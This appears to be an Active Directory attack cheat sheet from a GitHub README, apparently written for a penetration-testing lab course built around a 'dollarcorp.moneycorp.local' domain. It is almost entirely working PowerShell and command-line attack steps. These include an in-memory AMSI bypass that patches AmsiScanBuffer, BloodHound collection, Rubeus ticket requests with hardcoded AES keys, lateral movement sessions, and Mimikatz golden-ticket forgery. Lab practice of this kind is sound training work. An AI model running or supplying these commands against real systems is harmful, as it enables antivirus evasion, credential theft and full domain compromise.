 ```Powershell
Add-Type $ZQCUW
$amsiDLL = [ZQCUW]::LoadLibrary("amsi.dll")
$amsiScanBuffer = [ZQCUW]::GetProcAddress($amsiDLL, "AmsiScanBuffer")
$p = 0
$size = [UIntPtr]::new(5)
[ZQCUW]::VirtualProtect($amsiScanBuffer, $size, 0x40, [ref]$p)
$patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $amsiScanBuffer, $patch.Length)

. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```


## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Lateral+Movement)

```Powershell
---
From a cmd with administrative privileges (reset the ArgSplit.bat variables)
C:\AD\Tools\ArgSplit.bat
asktgt
echo %Pwn%
---
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%   /user:srvadmin /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
--
```

### Sessions

```Powershell
winrs -r:dcorp-ci cmd
set username && set computername
---
Enter-PSSession -ComputerName dcorp-ci.dollarcorp.moneycorp.local
$env:username;$env:computername
---
runas /noprofile /user:/"USERNAME" powershell.exe
```

### Golden Ticket


```Powershell
. .\PowerView.ps1
$DomainName = (Get-Domain).Name
$Domainsid = Get-DomainSID
$user = Get-DomainUser -Identity 'Administrator'
$userSID = $user.ObjectSID
$userRID = $userSID.Split('-')[-1]
$group = Get-DomainGroup -Identity 'Domain Admins'
$groupSID = $group.ObjectSID
$groupRID = $groupSID.Split('-')[-1]
Write-Output "/domain:$DomainName /sid:$Domainsid /id:$userRID /groups:$groupRID"
--

. .\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid: S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

```